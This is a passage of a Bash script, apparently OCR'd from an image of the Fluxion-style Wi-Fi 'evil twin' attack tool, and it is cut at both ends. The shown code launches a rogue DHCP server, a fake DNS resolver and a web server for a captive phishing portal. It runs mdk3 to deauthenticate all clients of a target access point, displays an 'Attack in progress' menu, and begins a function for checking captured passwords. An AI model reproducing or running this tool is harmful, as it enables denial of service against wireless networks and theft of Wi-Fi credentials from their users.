         routear &
        sleep 3


        killall dhcpd &> $flux_output_device
        fuser -n tcp -k 53 67 80 &> $flux_output_device
        fuser -n udp -k 53 67 80 &> $flux_output_device

        xterm -bg black -fg green $TOPLEFT -T DHCP -e "dhcpd -d -f -lf "$DUMP_PATH/dhcpd.leases" -cf "$DUMP_PATH/dhcpd.conf" $interfaceroutear 2>&1 | tee -a $DUMP_PATH/clientes.txt" &
        xterm $BOTTOMLEFT -bg "#000000" -fg "#99CCFF" -title "FAKEDNS" -e "if type python2 >/dev/null 2>/dev/null; then python2 $DUMP_PATH/fakedns; else python $DUMP_PATH/fakedns; fi" &

        lighttpd -f $DUMP_PATH/lighttpd.conf &> $flux_output_device

        killall aireplay-ng &> $flux_output_device
        killall mdk3 &> $flux_output_device
        echo "$Host_MAC" >$DUMP_PATH/mdk3.txt
        xterm $HOLD $BOTTOMRIGHT -bg "#000000" -fg "#FF0009" -title "Deauth all [mdk3]  $Host_SSID" -e mdk3 $WIFI_MONITOR d -b $DUMP_PATH/mdk3.txt -c $Host_CHAN &

        xterm -hold $TOPRIGHT -title "Wifi Information" -e $DUMP_PATH/handcheck &
        conditional_clear

        while true; do
                top

                echo -e ""$red"["$yellow"2"$red"]"$transparent" Attack in progress .."
                echo "                                       "
                echo "      1) Choose another network"
                echo "      2) Exit"
                echo " "
                echo -n '      #> '
                read yn
                case $yn in
                        1 ) matartodo; CSVDB=dump-01.csv; selection; break;;
                        2 ) matartodo; exitmode; break;;
                        * ) echo "
$general_case_error"; conditional_clear ;;
                esac
        done

}

# Checks the validity of the password
function handshakecheck {

        echo "#!/bin/bash

        echo > $DUMP_PATH/data.txt
        echo -n \"0\"> $DUMP_PATH/hit.txt
        echo "" >$DUMP_PATH/loggg

        tput civis
        clear

